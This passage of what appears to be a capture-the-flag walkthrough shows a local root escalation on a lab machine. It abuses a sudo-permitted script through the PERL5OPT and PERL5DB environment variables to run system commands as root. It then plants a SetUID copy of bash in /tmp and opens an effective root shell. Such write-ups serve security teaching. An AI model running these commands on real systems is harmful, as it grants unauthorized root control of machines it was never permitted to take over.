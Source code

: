 > Exim before 4.86.2, when installed setuid root, allows local users to gain privileges via the perl\_startup argument.

[POCs](https://www.exploit-db.com/exploits/39702) for this vulnerability show these variables used in exploitation:

![image-20240125153156507](/img/image-20240125153156507.png)

#### Exploit

To run this, I’ll just set these environment variables to touch a file:

```

jack@clicker:~$ sudo PERL5OPT=-d PERL5DB='system("touch /0xdf")' /opt/monitor.sh 
No DB::DB routine defined at /usr/bin/xml_pp line 9.
No DB::DB routine defined at /usr/lib/x86_64-linux-gnu/perl-base/File/Temp.pm line 870.
END failed--call queue aborted.

```

The `0xdf` file now exists owned by root in the system root:

```

jack@clicker:~$ ls -l /0xdf
-rw-r--r-- 1 root root 0 Jan 25 20:32 /0xdf

```

To get a shell, I’ll create a copy of `bash` and make it SetUID and SetGID:

```

jack@clicker:~$ sudo PERL5OPT=-d PERL5DB='system("cp /bin/bash /tmp/0xdf; chown root:root /tmp/0xdf; chmod 6777 /tmp/0xdf")' /opt/monitor.sh 
No DB::DB routine defined at /usr/bin/xml_pp line 9.
No DB::DB routine defined at /usr/lib/x86_64-linux-gnu/perl-base/File/Temp.pm line 870.
END failed--call queue aborted.

```

The file now exists, is owned by root, and is SetUID and SetGID:

```

jack@clicker:~$ ls -l /tmp/0xdf 
-rwsrwsrwx 1 root root 1396520 Jan 25 20:36 /tmp/0xdf

```

I’ll run it (not forgetting `-p` to not drop privs) and get an effective root shell:

```

jack@clicker:~$ /tmp/0xdf -p
0xdf-5.1# id
uid=1000(jack) gid=1000(jack) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),1000(jack)

```
